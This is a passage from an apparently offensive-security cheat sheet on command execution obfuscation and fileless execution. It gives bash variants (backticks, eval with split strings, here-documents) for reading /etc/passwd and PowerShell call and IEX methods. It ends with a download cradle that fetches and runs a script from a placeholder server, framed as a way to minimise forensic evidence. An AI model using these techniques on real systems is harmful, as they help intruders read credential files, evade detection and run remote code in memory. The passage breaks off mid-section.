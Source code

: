 ## 3. Command Execution Obfuscation

These techniques focus on how commands are executed rather than the commands themselves.

- **Alternative Execution Methods**:
  - **Bash Execution Operators**:
    ```bash
    # Different ways to execute commands
    `cat /etc/passwd`  # Backticks
    $(cat /etc/passwd)  # Command substitution
    eval "c"a"t /e"t"c/pa"s"swd"  # Eval with split strings
    ```
  
  - **PowerShell Execution Methods**:
    ```powershell
    # Different ways to execute commands
    & "Get-Process"  # Call operator
    . "Get-Process"  # Dot sourcing
    Invoke-Expression "Get-Process"  # IEX
    ```

- **Environment Variable Usage**:
  ```bash
  # Bash
  export CMD="cat /etc/passwd"
  $CMD
  
  # PowerShell
  $env:CMD = "Get-Process"
  Invoke-Expression $env:CMD
  ```

- **Input/Output Redirection**:
  ```bash
  # Use input redirection
  bash <<< "cat /etc/passwd"
  
  # Use here-documents
  bash << 'EOF'
  cat /etc/passwd
  EOF
  ```

## 4. Fileless Execution Techniques

Avoid writing to disk to minimize forensic evidence.

- **Memory-Only Execution**:
  - **PowerShell Download Cradle**:
    ```powershell
    # Download and execute in memory
    IEX (New-Object Net.WebClient).DownloadString('http://<your_server>/script.ps1')
    